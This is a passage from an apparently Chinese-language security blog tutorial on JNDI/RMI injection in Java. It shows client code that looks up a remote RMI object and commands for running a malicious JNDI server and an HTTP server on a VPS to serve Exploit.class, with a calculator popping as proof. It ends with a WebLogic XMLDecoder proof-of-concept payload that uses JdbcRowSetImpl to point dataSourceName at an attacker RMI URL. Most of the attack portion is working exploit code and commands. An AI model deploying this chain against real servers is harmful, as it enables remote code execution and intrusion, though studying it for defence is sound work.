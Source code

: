 ```
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        Context context = new InitialContext(env);
//        Object object1 = context.lookup("rmi://remote_server:1099/Exploit");
        Object object = context.lookup("Exploit");//ok
//        System.out.println("Object:" + object);
    }
    public static void main(String[] argv) throws NamingException {
        testRmi();
    }
}
```
首先测试本地JNDI服务，先运行`JNDIServer`，可以看到在本地监听了1099端口

![1099](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/OLArZ)

然后运行客户端`TestJNDI`，可以看到VPS收到了一次请求，访问了`Exploit.class`，接着执行了calc:

![calc](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/e5ntY)

测试成功

整个流程是这样的：`lookup`方法向JNDI服务请求`Exploit`，JNDI绑定了一个`referenceWrapper`，而`JNDIReferences`加载了外部对象(远程)，外部对象包含攻击载荷，本地反序列化执行

那我们可不可以在远程服务器开启一个JNDI服务和http服务，使应用通过`rmi://remote_server:1099/Exploit`远程调用呢？

### 0x03 远程利用
我们把项目打成jar包上传到VPS上，然后开启一个JNDI服务和http服务

> 开启JNDI服务

```
/usr/lib/jvm/jdk1.6.0_45/bin/java -jar -Djava.rmi.server.hostname="192.168.1.2" jnditest.jar
```
**注意**
如果此处不指定`rmi.server.hostname`的话会出现错误`Root exception is java.rmi.ConnectException: Connection refused to host: 127.0.0.1`

> 开启http服务

```
python -m SimpleHTTPServer 80
```

然后修改JNDI客户端部分，让它访问rmi远程服务
```
Object object = context.lookup("rmi://remote_server/Exploit");
```
可以看到执行成功

![calc2](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/fcbQR)


### 0x04 测试Weblogic
下面我们测试一下在实战中能否利用rmi远程代码执行
PoC
```
<java version="1.6.0_45" class="java.beans.XMLDecoder">
    <void class="com.sun.rowset.JdbcRowSetImpl">
        <void property="dataSourceName">
            <string>rmi://remote_server:1099/Exploit</string>
        </void>
        <void property="autoCommit">
            <boolean>true</boolean>
        </void>
    </void>
</java>
```